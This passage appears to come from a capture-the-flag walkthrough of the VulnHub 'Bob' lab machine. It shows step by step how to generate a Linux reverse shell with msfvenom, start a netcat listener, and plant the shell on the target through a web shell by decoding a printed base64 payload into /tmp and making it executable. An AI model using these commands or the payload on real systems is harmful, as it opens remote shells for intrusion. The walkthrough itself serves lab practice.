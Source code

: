 ***Step 1: Generate a reverse shell with `msfvenom`***

Before you generate the reverse shell, you need to determine the target's OS architecture &mdash; by running `uname -a` in the web shell. `msfvenom` needs this information to generate the correct reverse shell.

![0.roxsyv6gela](/assets/images/posts/bob-walkthrough/0.roxsyv6gela.png)

The target is running 64-bit Debian.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x64 --platform linux -f elf -o rev
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

***Step 2: Set up `netcat` listener***

```
# nc -lnvp 4444
```

***Step 3: Encode the reverse shell in `base64`***

```
# base64 rev | tr -d  '\n' && echo
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAwgAAAAAAAAAMAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdIuQIAEVzAqBSAUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
```

***Step 4: Run `echo -n [output from #3] | base64 -d > /tmp/rev`***

Because the output of this step ends up in file redirection, you don't see anything visible in the web shell. You can use `md5sum` for verification on your attacking machine and in the web shell &mdash; to ensure the integrity of the reverse shell is intact and unmodified.

```
# md5sum rev
f05a125872c14d573304819ac2997782  rev
```
![0.rxt6dcx6xhs](/assets/images/posts/bob-walkthrough/0.rxt6dcx6xhs.png)

Good. Both hashes are identical; both files are identical as well.

***Step 5: Run `chmod +x /tmp/rev`***

Although this step produces no visible output, you can use `ls.sh` to verify that `rev` is executable.

![0.kscltrqq2b](/assets/images/posts/bob-walkthrough/0.kscltrqq2b.png)


[1]: https://www.vulnhub.com/series/bob,152/
[2]: http://c0rruptedb1t.ddns.net/
[3]: https://www.vulnhub.com